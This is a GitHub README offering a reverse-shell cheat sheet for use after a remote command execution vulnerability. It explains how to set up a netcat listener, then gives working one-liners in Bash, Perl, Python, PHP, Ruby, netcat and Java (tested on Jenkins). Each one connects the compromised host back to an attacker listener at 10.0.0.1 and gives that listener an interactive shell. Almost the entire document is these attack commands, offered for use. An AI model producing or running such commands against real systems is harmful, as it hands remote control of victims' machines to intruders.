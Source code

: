 # Getting reverse shell HOWTOs &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/shell1.png" width="30"/>
After having success with a remote command execution vulnerability, you'll probably wish to get an interactive shell. You will see that your target cannot execute any reverse shell scripting languages; it's limited to the current vulnerable application language.  
  
Before starting, you will need netcat installed on your listener host.
  
**Ubuntu/Debian distrib:** *sudo apt-get install nc -y*  
**Other Linux distros (CentOS, RedHat, ...):** *yum install nc -y*  
  
Now that netcat is successfully installed on your listener host, type: *nc -l -v 4444*  
You will find below different ways in obtaining a reverse shell in multiple langs.  
  
## Bash &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/bourne_again.jpg" width="20"/>
Based that your local IP would be *10.0.0.1* and listener port on netcat is *4444*
```
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```
  
## Perl &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/perl.jpg" width="50"/>
```
perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
  
## Python &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/python.jpg" width="70"/>
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/php.png" width="40"/>
Assuming that the TCP connection is using file descriptor 3. If it doesn't work, try 4, 5, 6...
  
```
php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
  
## Ruby &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/ruby.png" width="20"/>
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
  
## Netcat &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/netcat.gif" width="80"/>
Most of the time in a prod environment, netcat won't be installed. Still, you can give it a try ;)
  
```
nc -e /bin/sh 10.0.0.1 4444
```
Since there is multiple different versions of netcat, the syntax can be different. If the first one above didn't work, try this:
  
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
```
  
## Java &nbsp; <img src="https://raw.githubusercontent.com/syriusbughunt/Getting_Reverse_Shell/master/img/java1.jpg" width="40"/>
Tried it on a Jenkins local server and works like a charm
  
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
